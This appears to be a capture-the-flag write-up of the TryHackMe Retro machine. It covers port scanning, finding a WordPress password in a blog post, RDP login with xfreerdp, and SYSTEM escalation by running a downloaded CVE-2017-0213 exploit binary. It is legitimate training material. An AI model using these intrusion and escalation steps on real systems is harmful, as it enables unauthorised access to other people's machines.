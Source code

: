```yaml
---
layout: post
title:  THM Retro Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-19 05:00:00 +0300
image:  '/images/thm_retro.png'
tags:   [Write-ups, THM, OSCP+, Hard, Windows, WordPress, RDP, Windows-Kernel-Exploit, CVE]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [RDP Access with xFreeRDP](#rdp-access-with-xfreerdp)
- [Privilege Escalation](#privilege-escalation)
  - [CVE-2017-0213 Kernel Exploit](#cve-2017-0213-kernel-exploit)

# Enumeration

### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.52.234

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p80,3389 10.10.52.234
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 11:31 EST
Nmap scan report for 10.10.52.234
Host is up (0.055s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-18T16:32:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-11-17T16:26:50
|_Not valid after:  2025-05-19T16:26:50
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-11-18T16:32:05+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.49 seconds
```

Examining our nmap scan results, we can see port 80 HTTP and port 3389 RDP open.

### Web Enumeration
If we visit the website, we will see a Microsoft IIS page:

```shell
http://10.10.52.234/
```

Lets use feroxbuster to try finding something interesting:

```shell
feroxbuster -u http://10.10.52.234/
```

Examining the results, we will can easily notice that the target is running WordPress (WP).

Notice that all directories in the results starts with:

```shell
http://10.10.52.234/retro
```

If we visit the URL above, we will appear on a website which seems to be some kind of retro gaming website.

Lets take a look at the posts created by Wade. Click on Wade, it will take us to a list of Posts by Wade:

```shell
http://10.10.52.234/retro/index.php/author/wade/
```

Examining the posts on the blog, we will find a password:

```shell
http://10.10.52.234/retro/index.php/2019/12/09/ready-player-one/
```

```shell
Leaving myself a note here just in case I forget how to spell it: parzival
```

Maybe we can use parzival as password somewhere.

# Foothold
### RDP Access with xFreeRDP
We can suppose that prazival is the password for the user Wade. Lets try getting RDP access with these credentials:

```shell
Wade:parzival
```

```shell
nxc rdp 10.10.48.32 -u Wade -p 'parzival' --local-auth
```

```shell
sudo xfreerdp /u:Wade /p:parzival /v:10.10.58.188 /drive:share,/home/kali/share
```

Nice! The credentials were valid and we got access as the user Wade.

### User Flag
Now we can get the user.txt flag, we can click and open it on the desktop or use the command line:

```shell
type C:\Users\Wade\Desktop\user.txt
```

# Privilege Escalation
### CVE-2017-0213 Kernel Exploit
We can use ver or systeminfo to enumerate the kernel info:

```shell
ver

systeminfo | findstr /B /C:"OS Version"
```

This will give us the built 14393 as result:

```shell
OS Version:                10.0.14393 N/A Build 14393
```

We can find a exploit for the version 14393 here if we do some search and look throughly:

https://github.com/SecWiki/windows-kernel-exploits

Lets download the kernel exploit we need:

```shell
https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2017-0213/CVE-2017-0213_x64.zip
```

Note: Dont use wget to download it. Visit the page and click on download.

Now move and use the exploit:

```shell
# I will make use of my xfreerdp folder
sudo cp CVE-2017-0213_x64.exe /home/kali/share

# Now we can run the exploit
Shift + Right-click on Desktop -> Open command window here

# Enter the following to run the exploit
CVE-2017-0213_x64.exe
```

A new CLI window will pop up giving us a shell as system.

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt.txt
```

If we get any problem when trying to copy the flag content, just copy the root.txt.txt into the desktop of the user Wade and open the file there:

```shell
copy C:\Users\Administrator\Desktop\root.txt.txt C:\Users\Wade\Desktop\root.txt
```